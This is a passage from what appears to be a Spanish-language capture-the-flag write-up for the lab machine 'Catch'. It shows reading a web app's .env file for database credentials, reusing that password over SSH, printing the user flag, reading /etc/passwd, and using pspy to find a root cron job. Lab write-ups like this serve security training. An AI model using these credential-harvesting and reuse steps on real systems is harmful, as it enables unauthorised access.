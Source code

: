 Dentro de la ruta donde se aloja el servicio web, hay un archivo con variables de entorno, entre las que se encuentran credenciales de acceso a la base de datos

```null
www-data@81182d9e4b17:/var/www/html/Cachet$ cat .env
...

DB_DRIVER=mysql
DB_HOST=localhost
DB_UNIX_SOCKET=null
DB_DATABASE=cachet
DB_USERNAME=will
DB_PASSWORD=s2#4Fg0_%3!

...
````

Se reutilizan para el acceso por SSH

```null
ssh will@10.10.11.150
The authenticity of host '10.10.11.150 (10.10.11.150)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

will@catch:~$

```

Puedo visualizar la primera flag

```null
will@catch:~$ cat user.txt 
b27331b600800df68713fc35fcb65e13
```

# Escalada

Hay otro usuario llamado git

```null
will@catch:/opt$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
git:x:115:121:Git Version Control,,,:/home/git:/bin/bash
will:x:1000:1000:,,,:/home/will:/bin/bash
```

Subo y ejecuto el pspy para ver tareas programadas

```null
2023/02/09 15:46:01 CMD: UID=0    PID=116434 | /usr/sbin/CRON -f 
2023/02/09 15:46:01 CMD: UID=0    PID=116436 | 
2023/02/09 15:46:01 CMD: UID=0    PID=116437 | /bin/bash /opt/mdm/verify.sh 
2023/02/09 15:46:01 CMD: UID=0    PID=116440 | /bin/bash /opt/mdm/verify.sh 
2023/02/09 15:46:01 CMD: UID=0    PID=116438 | /bin/bash /opt/mdm/verify.sh 
2023/02/09 15:46:01 CMD: UID=0    PID=116441 | 
2023/02/09 15:46:01 CMD: UID=0    PID=116442 | /bin/bash /opt/mdm/verify.sh 
2023/02/09 15:46:01 CMD: UID=0    PID=116443 | jarsigner -verify /root/mdm/apk_bin/1cd7b7d30aa7dd0ce13f7c2f.apk 
2023/02/09 15:46:02 CMD: UID=0    PID=116466 | /bin/bash /opt/mdm/verify.sh 
2023/02/09 15:46:02 CMD: UID=0    PID=116465 | grep -v apk_bin 
2023/02/09 15:46:02 CMD: UID=0    PID=116464 | ls -A /opt/mdm 
2023/02/09 15:46:02 CMD: UID=0    PID=116463 | /bin/bash /opt/mdm/verify.sh 
```
